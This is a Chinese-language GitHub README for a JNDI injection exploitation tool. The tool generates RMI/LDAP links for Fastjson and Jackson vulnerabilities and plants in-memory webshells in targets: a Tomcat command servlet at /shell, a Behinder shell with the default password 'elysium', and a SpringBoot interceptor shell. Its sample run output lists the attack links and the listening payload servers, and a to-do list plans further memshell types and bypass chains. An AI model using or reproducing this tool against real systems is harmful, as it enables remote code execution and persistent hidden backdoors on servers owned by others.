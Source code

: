 ## 介绍

JNDI注入利用工具，生成JNDI链接并启动后端相关服务，可用于Fastjson、Jackson等相关漏洞的验证。

最开始做项目的初衷是因为，遇到一些场景只能用RMI注入，无法使用LDAP注入，但是找了一段的时间之后发现Github中并没有很合心意的RMI注入工具，于是原本想自己做一个RMI注入内存马的工具，参考了一下welk1n佬的项目，结果发现佬写的精妙，可以改动的地方很少了已经，索性直接fork大佬的项目，添加工具。
原仓库地址：https://github.com/welk1n/JNDI-Injection-Exploit

冰蝎内存🐴默认密码:elysium

## 更新功能

### 内存马注入

直接运行jar包，可以看到添加了Tomcat Memshell、Behinder两种内存马（还在更新中）

```shell
$ java -jar JNDI-Injection-Memshell-1.0-SNAPSHOT-all.jar          
[ADDRESS] >> 127.0.0.1
[COMMAND] >> open /Applications/Calculator.app
----------------------------JNDI Links----------------------------
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://127.0.0.1:1099/cl2cgx
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/knlbmx
ldap://127.0.0.1:1389/knlbmx
Target environment(Tomcat Servlet Memshell):
rmi://127.0.0.1:1099/9tc7hk
ldap://127.0.0.1:1389/9tc7hk
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/ma0np7
ldap://127.0.0.1:1389/ma0np7
Target environment(Springboot Interceptor Memshell):
rmi://127.0.0.1:1099/fnijcn
ldap://127.0.0.1:1389/fnijcn
Target environment(Behinder Servlet Memshell):
rmi://127.0.0.1:1099/oeczn8
ldap://127.0.0.1:1389/oeczn8

----------------------------Server Log----------------------------
2023-08-28 09:06:01 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-08-28 09:06:01 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-08-28 09:06:01 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

- Tomcat Servlet Memshell

  - 命令执行Servlet内存马：路径/shell，参数cmd

   ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/1.jpg)

- Behinder Servlet Memshell

  - 冰蝎Servlet内存马：路径/shell，密码:elysium

  ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/2.jpg)

- Springboot interceptor Memshell
  - springboot的拦截器内存马，在request header中的command为入参执行命令

	![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/3.jpg)

## 待实现

- 添加filter、Interceptor类型的内存马
- 融合groovy的bypass利用链到项目中。
- 更新weblogic以及其他中间件的内存马注入环境
- 增加注入哥斯拉内存马的模块
- 加入websocket内存马



## Star History

[![Star History Chart](https://api.star-history.com/svg?repos=MUYU212/JNDI-Injection-Memshell&type=Date)](https://star-history.com/#MUYU212/JNDI-Injection-Memshell&Date)

